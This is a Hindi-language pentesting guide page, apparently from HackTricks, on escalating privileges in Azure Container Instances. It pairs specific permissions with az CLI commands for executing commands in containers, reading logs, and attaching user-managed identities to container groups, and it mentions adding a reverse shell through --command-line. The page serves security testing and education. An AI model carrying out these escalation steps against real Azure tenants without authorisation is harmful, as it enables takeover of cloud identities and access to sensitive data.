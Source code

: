 # Az - Azure Container Instances Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Instances

अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-container-instances.md
{{#endref}}

### `Microsoft.ContainerInstance/containerGroups/read`, `Microsoft.ContainerInstance/containerGroups/containers/exec/action`

ये अनुमतियाँ उपयोगकर्ता को **एक कमांड निष्पादित** करने की अनुमति देती हैं एक चल रहे कंटेनर में। यदि कंटेनर में कोई प्रबंधित पहचान जुड़ी हुई है, तो इसका उपयोग **अधिकार बढ़ाने** के लिए किया जा सकता है। बेशक, कंटेनर के अंदर संग्रहीत स्रोत कोड और किसी अन्य संवेदनशील जानकारी तक पहुंच प्राप्त करना भी संभव है।

`ls` निष्पादित करने और आउटपुट प्राप्त करने के लिए यह उतना ही सरल है:
```bash
az container exec --name <container-name> --resource-group <res-group>  --exec-command 'ls'
```
यह भी संभव है कि **कंटेनर का आउटपुट पढ़ा जाए**:
```bash
az container attach --name <container-name> --resource-group <res-group>
```
या लॉग प्राप्त करें:
```bash
az container logs --name <container-name> --resource-group <res-group>
```
### `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

ये अनुमतियाँ **एक उपयोगकर्ता प्रबंधित पहचान** को एक कंटेनर समूह से जोड़ने की अनुमति देती हैं। यह कंटेनर में विशेषाधिकार बढ़ाने के लिए बहुत उपयोगी है।

एक उपयोगकर्ता प्रबंधित पहचान को एक कंटेनर समूह से जोड़ने के लिए:
```bash
az rest \
--method PATCH \
--url "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerInstance/containerGroups/<container-name>?api-version=2021-09-01" \
--body '{
"identity": {
"type": "UserAssigned",
"userAssignedIdentities": {
"/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>": {}
}
}
}' \
--headers "Content-Type=application/json"
```
### `Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

ये अनुमति **एक कंटेनर समूह बनाने या अपडेट करने** की अनुमति देती हैं जिसमें **एक उपयोगकर्ता प्रबंधित पहचान** संलग्न होती है। यह कंटेनर में विशेषाधिकार बढ़ाने के लिए बहुत उपयोगी है।
```bash
az container create \
--resource-group <res-group>> \
--name nginx2 \
--image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
--assign-identity "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>" \
--restart-policy OnFailure \
--os-type Linux \
--cpu 1 \
--memory 1.0
```
इसके अलावा, एक मौजूदा कंटेनर समूह को अपडेट करना भी संभव है, उदाहरण के लिए **`--command-line` तर्क** के साथ एक रिवर्स शेल जोड़ना। 

{{#include ../../../banners/hacktricks-training.md}}
